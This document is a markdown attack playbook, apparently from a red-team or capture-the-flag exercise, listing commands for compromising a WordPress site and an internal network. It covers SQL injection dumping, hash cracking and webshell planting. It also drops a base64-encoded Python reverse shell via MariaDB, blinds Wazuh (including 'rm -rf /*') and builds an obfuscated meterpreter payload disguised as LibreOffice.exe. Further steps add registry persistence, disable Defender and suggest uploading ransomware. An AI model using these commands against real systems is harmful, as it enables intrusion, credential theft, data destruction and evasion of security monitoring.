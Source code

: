 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install the `File Manager Advanced` plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`rlwrap nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins) in interactive mode\
`sudo vim -c ':!/bin/bash -i'`\
\
If you don't use interactive mode, upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# Information gathering
Check the wordpress configuration to access the database.\
`cat /var/www/wordpress/wp-config.php`

# SSRF RCE Mariadb
Launch mariadb by using the wordpress configuration.\
`mariadb -u wordpress_user -p --host=10.0.0.6`\

Drop the python3 (base64 encoded) payload on the mariadb server, which is on the LAN:\
`USE shop;`\
`SELECT 'eval $(echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMC4xLjEiLDIyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw== | base64 -d)' INTO OUTFILE '/tmp/mysql.sh' FROM 'shop.user' LIMIT 1;`

On the nmap report, there's a ssh running on port `22/tcp`. Disable the service ssh on webserver:\
`systemctl stop ssh`\

Install `netcat` then launch a listener on port `22`:\
`apt install netcat-openbsd && nc -lvnp 22`\

Wait 1 to 2 minutes, so that the backup script executes our payload.

# Breaking RSA
You will find 2 rsa 4096bits public keys. These keys are vulnerable to Fermat's algorithm. Generate the `n` module to factorize it, and obtain `p` and `q`, so you can generate the private key.\
`ssh-keygen -e -m PKCS8 -f <public_key> | openssl rsa -pubin -noout -modulus`\
`echo "ibase=16; <result_of_the_previous_command> | BC_LINE_LENGTH=0 bc"`\

Paste the result in your python `fermat.py` as the argument of the `factorize()` function. You will obtain `p` and `q`.

# Wazuh
Once logged in, make Wazuh blind. Use any method you can think of (e.g. changing ip address, stopping the service, `rm -rf /*`...)

# Active Directory
Upload a custom C2 to avoid leaving IoCs. Use an obfusated `meterpreter` and upload it via `scp -r` to the `Domain Controller`.\
`msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.0.0.6 LPORT=80 -f csharp`
Encrypt the payload with `xor_payload` then obfuscate it with `payload`. Rename it to a more conventional name (e.g. LibreOffice.exe, Chromium.exe...).\
Setup a meterpreter listener:\
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_http
set lhost 10.0.0.6
set lport 80
# avoiding IoCs
set AutoLoadStdapi false
set AutoSystemInfo false
# opportunity to get more than 1 listener
set ReverseListenerThreaded true
exploit
```
With a **SSH** session, upload then launch the program (use several session if possible). Once a meterpreter session opened, execute the following:
```
# persistance (adapt to a more stealthy location)
reg setval -k 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run' -t REG_SZ -v 'LibreOffice' -d 'C:\Users\Administrator\Desktop\LibreOffice.exe'
# use a shell (wait at least a minute to be even more stealthy!)
load stdapi
shell
# create an AV exception
Add-MpPreference -ExclusionPath "C:\Users\Administrator\Desktop"
# Disable AV
Set-MpPreference -DisableTamperProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -MAPSReporting 0
​Set-MpPreference -SubmitSamplesConsent NeverSend
```

Upload any file (e.g. ransomware, spyware...) after disabling the controls with the meterpreter shell with `upload <path/to/file>`